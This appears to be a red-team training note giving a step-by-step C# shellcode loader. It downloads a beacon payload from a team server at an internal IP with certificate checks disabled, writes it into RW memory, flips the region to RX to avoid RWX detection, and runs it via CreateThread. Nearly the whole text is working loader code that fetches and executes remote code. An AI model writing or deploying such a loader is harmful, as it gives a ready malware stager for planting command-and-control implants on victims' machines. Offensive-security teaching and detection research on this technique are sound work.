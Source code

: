 The CreateThread API can be used to create a new thread within the calling process, so we'll be injecting the shellcode into the injector itself.  This is amongst the easiest and most basic type of injection.

1.  Download the shellcode from the Team Server using the **HttpClient** class.  This is disposable, so wrap it in a using statement or call the `Dispose()` method.  We also have to use the **ServerCertificateCustomValidationCallback** to ignore the self-signed SSL error.

```csharp
static async Task Main(string[] args)
{
    byte[] shellcode;

    using (var handler = new HttpClientHandler())
    {
        // ignore ssl, because self-signed
        handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

        using (var client = new HttpClient(handler))
        {
            // Download the shellcode
            shellcode = await client.GetByteArrayAsync("https://10.10.0.69/beacon.bin");
        }
    }
}
```

  

2.  Use **VirtualAlloc** to allocate a new region of memory within this process.  The region has to be large enough to accommodate the shellcode, so we can just use the shellcode's length as a parameter.  The API will typically round up, which is fine.  We also allocate the region with RW permission so we can avoid RWX.

```csharp
// Allocate a region of memory in this process as RW
var baseAddress = Win32.VirtualAlloc(
    IntPtr.Zero,
    (uint)shellcode.Length,
    Win32.AllocationType.Commit | Win32.AllocationType.Reserve,
    Win32.MemoryProtection.ReadWrite);
```

  

3.  Now we can copy the shellcode into this region.  Because it's our own process, we can use **Marshal.Copy** instead of the WriteProcessMemory API (saves a bit of time).

```csharp
// Copy the shellcode into the memory region
Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);
```

  

4. Before we can execute the shellcode, we have to flip the memory protection of this region from RW to RX.  **VirtualProtect** takes in the new memory protection and pops out whatever the current protection is.  This is useful to have if you were to flip it back again, but since we're not, just dispose of it with `_`.

```csharp
// Change memory region to RX
Win32.VirtualProtect(
    baseAddress,
    (uint)shellcode.Length,
    Win32.MemoryProtection.ExecuteRead,
    out _);
```

  

5.  Now we can call **CreateThread** to execute this shellcode.

```csharp
// Execute shellcode
var hThread = Win32.CreateThread(
    IntPtr.Zero,
    0,
    baseAddress,
    IntPtr.Zero,
    0,
    out _);
```

  

6.  CreateThread is not a blocking call, so to prevent the process from exiting we can wait on this thread.  **WaitForSingleObject** will block for as long as the thread is running.

```csharp
// Wait infinitely on this thread to stop the process exiting
Win32.WaitForSingleObject(hThread, 0xFFFFFFFF);
```

  

You should now have a beacon running inside the injector.

![[24. CreateThread.png]]



